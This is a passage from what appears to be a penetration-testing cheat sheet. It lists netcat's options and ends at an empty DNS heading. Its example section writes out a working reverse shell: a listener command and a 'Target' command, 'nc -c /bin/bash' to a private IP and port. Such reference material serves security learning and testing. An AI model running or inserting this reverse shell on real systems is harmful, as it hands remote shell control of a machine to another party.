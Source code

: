             # Target:
        $ nc -l -p Port Options Hostname Port
        ```
    - Flags:

        - `-c string`    specify shell commands to exec after connect (use with caution).  The string is passed to /bin/sh -c for execution.  See the -e option if you don't have a working /bin/sh (Note that POSIX-conformant system must have one).
        - `-e filename`  specify filename to exec after connect (use with caution).  See the -c option for enhanced functionality.
        - `-g gateway`   source-routing hop point[s], up to 8
        - `-G num`       source-routing pointer: 4, 8, 12, ...
        - `-i secs`      delay interval for lines sent, ports scanned
        - `-l `         listen mode, for inbound connects
        - `-n `         numeric-only IP addresses, no DNS
        - `-h `         display help
        - `-o file`      hex dump of traffic
        - `-p port`      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
        - `-q seconds`   after EOF on stdin, wait the specified number of seconds and then quit. If seconds is negative, wait forever.
        - `-b `         allow UDP broadcasts
        - `-r `         randomize local and remote ports
        - `-s addr`      local source address
        - `-t`           enable telnet negotiation
        - `-u`           UDP mode
        - `-v`           verbose [use twice to be more verbose]
        - `-w secs`      timeout for connects and final net reads
        - `-C`           Send CRLF as line-ending
        - `-z`           zero-I/O mode [used for scanning]
        - `-T type`      set TOS flag (type may be one of "Minimize-Delay", "Maximize-Throughput", "Maximize-Reliability", or "Minimize-Cost".)

    - Examples:

        ``` bash
        # Start Listening:
        $ nc -lnvp 87 -s 192.168.1.32

        # Target:
        $ nc -c /bin/bash 192.168.1.32 87
        ```

## DNS

- Host

    - DNS Discovery

    - Syntax:
